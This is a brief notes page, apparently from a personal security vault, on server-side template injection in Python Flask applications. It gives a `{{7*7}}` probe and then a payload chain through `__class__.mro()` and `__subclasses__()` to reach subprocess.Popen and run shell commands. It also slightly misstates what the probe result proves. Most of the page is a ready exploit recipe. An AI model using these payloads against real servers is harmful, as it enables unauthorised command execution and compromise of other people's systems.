 ```yaml
---
exploit: template-injection
language: python
tags: python
---
```



```ad-note
more info: [Hacker One report](https://hackerone.com/reports/125980)
```

This occurs on python web servers, with templates, mainly flask.

You can test for it with: `{{7 * 7}}`.
If that returns __49__ or maybe even __7777777__, then it worked, and you have command execution.

Exploit code:
```python
{{''.__class__.mro()[1].__subclasses__()}} 
```
This checks for commands we can execute. 

```ad-note
Try changing the int `1` to several things.
```

If you find something like `subprocess.popen`, you are good. Then you have to find the number of it. Put that in the place of __x__.

```python
{{''.__class__.mro()[1].__subclasses__()[X]}}
```

And in the end, just enter the command you want after it with brackets:

```python
{{''.__class__.mro()[1].__subclasses__()[X](COMMAND)}}
```

A final command might look something like this:

```python
{{''.__class__.mro()[2].__subclasses__()[233]("ls")}}
```



